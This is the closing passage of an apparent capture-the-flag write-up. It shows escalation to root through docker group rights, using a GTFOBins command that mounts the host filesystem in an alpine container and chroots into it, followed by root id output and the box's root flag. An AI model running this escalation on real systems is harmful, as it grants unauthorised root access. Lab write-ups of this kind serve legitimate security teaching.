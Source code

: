 ```sh
  Built:            Thu Sep  8 23:09:59 2022
  OS/Arch:          linux/amd64
  Experimental:     false
 containerd:
  Version:          1.6.8
  GitCommit:        9cd3357b7fd7218e4aec3eae239db1f68a5a6ec6
 runc:
  Version:          1.1.4
  GitCommit:        v1.1.4-0-g5fd4c4d
 docker-init:
  Version:          0.19.0
  GitCommit:        de40ad0
     
$ docker ps
CONTAINER ID   IMAGE     COMMAND   CREATED   STATUS    PORTS     NAMES

$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   6 months ago   5.53MB
```

So we can see there are no containers running currently but we have an image called alpine. There's a well known exploit that GTFOBins covers [here](https://gtfobins.github.io/gtfobins/docker/), from there we can spawn a root shell using this:

```sh
sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

## Root Flag

We don't need sudo because our user already has rights:

```sh
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```

Let's grab the root flag:

```sh
# cd root
# cat root.txt
f2348e2be3d1990f4a8429f60461f735
```

All done. That was a nice simple box, hope you learnt something and see you next time.
